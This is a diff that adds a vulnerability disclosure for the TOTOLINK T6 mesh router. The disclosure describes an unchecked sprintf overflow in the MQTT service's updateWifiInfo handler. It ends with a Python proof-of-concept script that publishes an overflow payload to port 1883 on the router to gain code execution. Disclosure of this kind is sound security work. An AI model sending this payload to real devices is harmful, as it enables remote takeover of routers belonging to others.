

update 7th

Changed region(s): [[0.0, 0.0, 0.2999, 0.0907], [0.0, 0.4839, 0.2099, 0.5747]]

diff --git a/Totolink T6/Vuln/7.md b/Totolink T6/Vuln/7.md
@@ -1,0 +1,50 @@
+# Information
+
+**Vendor of the products:** TOTOLINK
+
+**Vendor's website:** [TOTOLINK](https://www.totolink.net/)
+
+**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)
+
+**Affected firmware version:** V4.1.5cu.748_B20211015
+
+**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)
+
+# Overview
+
+TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.
+
+# Vulnerability details
+
+The `T6` routers open `MQTT` service and listen on port `1883`. In function `updateWifiInfo`. The `v9` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.
+
+![](7/1.png)
+
+![](7/2.png)
+
+An attacker can implement a RCE attack by sending a malicious `MQTT` packet.
+
+![](7/3.png)
+
+# POC
+
+```python
+import paho.mqtt.client as mqtt
+
+payload = b"A" * 0x7e + b"\x37\x33\x33\x13"
+
+mqtt_data = b'''
+{
+"newMd5":"1",
+"serverIp":"%s"
+}
+''' % payload
+
+client = mqtt.Client()
+client.connect("192.168.0.1", 1883, 60)
+client.publish("totolink/router/updateWifiInfo", mqtt_data)
+```
+
+
+
+
